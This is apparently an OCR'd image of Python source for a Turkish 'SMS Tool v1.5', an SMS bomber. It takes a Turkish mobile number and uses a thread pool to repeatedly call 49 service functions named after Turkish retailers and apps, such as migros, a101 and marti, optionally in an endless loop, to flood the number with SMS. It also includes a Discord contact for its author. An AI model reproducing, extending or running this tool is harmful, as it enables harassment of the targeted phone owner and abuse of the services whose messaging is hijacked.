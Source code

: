 def send_service(number, service):
    global all_sends
    global success_sends
    global failed_sends
    result = service(number=number)
    if result[0] == True:
        all_sends += 1
        success_sends += 1
        print(f"[+] {all_sends} {result[1]}")
    else:
        all_sends += 1
        failed_sends += 1
        print(f"[-] {all_sends} {result[1]}")

def send(number, amount, worker_amount):
    global clear
    global all_sends
    global success_sends
    global failed_sends
    start_time = int(time.perf_counter())
    functions = [a101, anadolu, aygaz, bim, bisu, ceptesok, coffy, defacto, englishhome, file, gez, gofody, goyakit, hayat, heyscooter, hizliecza, hop, ikinciyeni, ipragraz, istegelsin, jetle, joker, kalmasin, karma, kimgbister, macrocenter, marti, migros, mopas, ninewest, oliz, pawapp, paybol, petrolofisi, pinar, pisir, qumpara, rabbit, roombadi, saka, scooby, signalall, superpedestrian, sushico, tazi, tiklagelsin, total, weescooter, yotto]
    random.shuffle(functions)
    clear()
    print(f"{number} numarasına SMS gönderimi başlatıldı!\n")
    if amount == 0:
        with concurrent.futures.ThreadPoolExecutor(max_workers=worker_amount) as executor:
            i = 0
            while True:
                executor.submit(send_service, number, functions[i % 49])
                i += 1
                if i == len(functions):
                    i = 0
    else:
        with concurrent.futures.ThreadPoolExecutor(max_workers=worker_amount) as executor:
            for i in range(amount):
                executor.submit(send_service, number, functions[i % 49])
    print("\nGönderim tamamlandı!")
    print(f"{all_sends} SMS, {int(time.perf_counter()) - start_time} saniye içerisinde gönderildi. {success_sends} başarılı, {failed_sends} başarısız.\n")
    all_sends = 0
    success_sends = 0
    failed_sends = 0
    restart()

def watermark():
    print("SMS Tool v1.5. İletişim: Wiper#0565, https://discord.gg/WMHHDe5aWe")

def get_number():
    global clear
    while True:
        try:
            number = int(input(f"""Telefon numarasını yazın. Şunun gibi: "54xxxxxxxx" (Sadece Türkiye numaralarında çalışır!)\n[?] : """))
            if len(str(number)) == 10 and str(number)[0] == "5":
                return number
            else:
                clear()
                print(f"Yanlış numara biçimi girildi.")
        except:
            clear()
            print(f"Lütfen bir numara yazın.")